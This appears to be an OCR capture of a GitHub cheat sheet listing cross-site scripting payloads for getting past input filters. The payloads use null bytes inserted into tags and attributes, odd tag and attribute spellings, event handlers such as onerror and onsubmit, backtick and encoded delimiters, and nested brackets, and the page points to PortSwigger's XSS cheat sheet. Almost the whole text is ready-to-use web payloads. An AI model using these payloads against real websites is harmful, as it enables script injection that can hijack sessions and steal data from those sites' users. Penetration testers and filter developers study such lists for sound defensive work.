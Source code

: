 Adding Nullbytes
```Terminal
<%00script>alert(1)</script>
<scr%00ipt>alert(1)</script>
```

Attributes and Tags
```Terminal
<input type="text" name="input" value="hello" >
<input type="text" name="input" value=">< script >alert(1)</script>
<randomtag type="text" name="input" value=">< script >alert(1)</script>
<input/type="text" name="input" value=">< script >alert(1)</script>
<input&#9type="text" name="input" value=">< script >alert(1)</script>
<input&#10type="text" name="input" value=">< script >alert(1)</script>
<input&#13type="text" name="input" value=">< script >alert(1)</script>
<input/'type="text" name="input" value=">< script >alert(1)</script>
<iNpUt type="text" name="input" value=">< script >alert(1)</script>
```

Attributes Nullbytes
```Terminal
<%00input type="text" name="input" value="><script>alert(1)</script>
<inp%00ut type="text" name="input" value="><script>alert(1)</script>
<input t%00ype="text" name="input" value="><script>alert(1)</script>
<input type="text" name="input" value="><script>a%00lert(1)</script>
```

Event Handler
```Terminal
<input onsubmit=alert(1)>

---> onsubmit is the event

https://portswigger.net/web-security/cross-site-scripting/cheat-sheet 
```

- https://portswigger.net/web-security/cross-site-scripting/cheat-sheet (VERY GOOD)

Delimiters & Backticks and Brakers
```
#() to Backticks
<img onerror="alert(1)"src=x>
<img onerror='alert(1)'src=x>

#Backticks
	<img onerror=`alert(1)`src=x>
	
#Encoded backtics
	<img onerror=&#96alert(1)&#96src=x>

#Double use of delimiters
	<<script>alert(1)//<</script>

#Unknown delimiters
	«input onsubmit=alert(1)»
```
